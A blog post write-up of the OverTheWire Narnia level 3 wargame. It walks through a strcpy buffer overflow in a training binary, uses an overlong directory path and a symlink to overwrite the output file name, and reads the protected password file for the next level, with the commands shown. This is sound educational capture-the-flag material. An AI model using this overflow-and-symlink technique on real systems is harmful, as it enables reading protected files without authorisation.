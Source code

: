 ```yaml
---
layout:     post
title:      "Overthewire.org - Narnia 3 -> 4"
subtitle:   "Write-Up"
date:       2017-03-05 0:00:00
author:     "W3ndige"
permalink: /:title/
category: Overthewire
---
```


<p>Let's go back to another reverse engineering challenge from OverTheWire. Today we'll be dealing with a little different type of buffer overflow.  </p>

<h1>Challenge</h1>

<p>This time, we can start by firstly running the program. </p>

{% highlight text %}
narnia3@melinda:/narnia$ ./narnia3
usage, ./narnia3 file, will send contents of file 2 /dev/null
{% endhighlight %}

<p>But what can we see in the source code? </p>

{% highlight c %}
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char **argv){

        int  ifd,  ofd;
        char ofile[16] = "/dev/null";
        char ifile[32];
        char buf[32];

        if(argc != 2){
                printf("usage, %s file, will send contents of file 2 /dev/null\n",argv[0]);
                exit(-1);
        }

        /* open files */
        strcpy(ifile, argv[1]);
        if((ofd = open(ofile,O_RDWR)) < 0 ){
                printf("error opening %s\n", ofile);
                exit(-1);
        }
        if((ifd = open(ifile, O_RDONLY)) < 0 ){
                printf("error opening %s\n", ifile);
                exit(-1);
        }

        /* copy from file1 to file2 */
        read(ifd, buf, sizeof(buf)-1);
        write(ofd,buf, sizeof(buf)-1);
        printf("copied contents of %s to a safer place... (%s)\n",ifile,ofile);

        /* close 'em */
        close(ifd);
        close(ofd);

        exit(1);
}
{% endhighlight %}

<p>This code may look complicated at first. But, after taking a closer look, we can see a potential buffer overflow vulnerability in <b>ifile</b> buffer, which is 32 bytes in size. </p>

<p>Because <b>strcpy()</b> does not perform any checks of the length of the input, if I give a file name longer than 32 bytes in length, I would be able to overwrite the <b>ofile</b> from <b>/dev/null</b> to another file. </p>

<p>It's known bug in the strcpy man pages: </p>

<p><i>If the destination string of a strcpy() is not large enough, then  anything  might  happen.   Overflowing  fixed-length  string  buffers is a favorite cracker technique for taking complete control of the  machine. Any  time  a  program  reads  or copies data into a buffer, the program first needs to check that there's enough space.  This may  be  unnecessary  if you can show that overflow is impossible, but be careful: programs can get changed over time, in ways that may make  the  impossible possible.</i></p>

<p>Firstly, I'm going to create a file in <b>/tmp</b> directory, where possibly, the password for the next level will end up.  </p>

{% highlight text %}
narnia3@melinda:~$ cd /tmp
narnia3@melinda:/tmp$ touch w3ndige
{% endhighlight %}

<p>Then, I'm going to use Python and calculate how long the directory should be, together with <b>/tmp/</b> beggining. We can also generate letters for our directory name. </p>

{% highlight python %}
>>> 32 - len("/tmp/")
27
>>> print("/tmp/" + "A"*27)
/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAA
{% endhighlight %}

<p>Now, let's move on and create a directory. But because its name will only fulfill the buffer, we have to add another one, which will overwrite the buffer. </p>

{% highlight text %}
narnia3@melinda:/tmp$ mkdir AAAAAAAAAAAAAAAAAAAAAAAAAAW     
narnia3@melinda:/tmp$ cd AAAAAAAAAAAAAAAAAAAAAAAAAAW
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ mkdir tmp
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW$ cd tmp
{% endhighlight %}

<p>Now we can create a link using <b>ln</b> command on w3ndige file, to the password file. This means that when we cat the created file, it will actually cat the content of the password file “/etc/narnia_pass/narnia4”. We can also see, if it works, using <b>ls</b> command.  </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ln -s /etc/narnia_pass/narnia4 ./w3ndige
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ ls -lh
total 0
lrwxrwxrwx 1 narnia3 narnia3 24 Feb 28 20:18 w3ndige -> /etc/narnia_pass/narnia4

{% endhighlight %}

<p>Now we have to pass this directory, as an argument, to the binary. Let's pray it works. </p>

{% highlight text %}
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ /narnia/narnia3 /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige
copied contents of /tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp/w3ndige to a safer place... (/tmp/w3ndige)
narnia3@melinda:/tmp/AAAAAAAAAAAAAAAAAAAAAAAAAAW/tmp$ cat /tmp/w3ndige
**********
{% endhighlight %}

<p>And it worked, now we have the password! </p>

<h1>Conclusion</h1>
<p>Once gain thanks <a href="http://overthewire.org/wargames/">OverTheWire</a>! I'm definitely looking forward to new challenges from <b>Narnia</b>, as I'm getting more and more interested in reverse engineering. </p>
